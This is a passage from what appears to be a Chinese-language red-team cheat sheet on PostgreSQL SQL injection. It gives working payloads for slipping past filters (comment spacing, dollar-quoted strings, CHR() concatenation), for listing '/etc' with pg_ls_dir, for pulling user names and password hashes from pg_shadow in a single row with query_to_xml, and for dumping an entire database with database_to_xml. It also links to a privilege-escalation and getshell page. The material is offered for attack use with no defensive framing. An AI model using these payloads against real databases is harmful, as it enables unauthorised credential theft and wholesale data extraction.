 ![](../../../../../assets/img/Security/RedTeam/Web安全/Web_Generic/SQLi/40.png)

### bypass 技巧

**注释**
```sql
SELECT version();
SELECT/**/version();
```

**代替引号**
```sql
select pg_ls_dir('/etc');
select pg_ls_dir($$/etc$$);         -- 使用 $ 符号
select pg_ls_dir($test$/etc$test$); -- 使用标签
select pg_ls_dir(CHR(47)||CHR(101)||CHR(116)||CHR(99)); -- 采取CHR()函数
```

**query_to_xml**

query_to_xml 可以将结果返回在一行里，不必担心限制或多行

```sql
SELECT query_to_xml('SELECT usename, passwd FROM pg_shadow;',true,true,'')
```

**DATABASE_TO_XML**

使用 xml 帮助程序通过单个查询转储整个数据库

```sql
SELECT database_to_xml(true,true,'')
```

### 提权/GETSHELL

- [Postgresql提权](../../软件服务安全/实验/Postgresql.md)
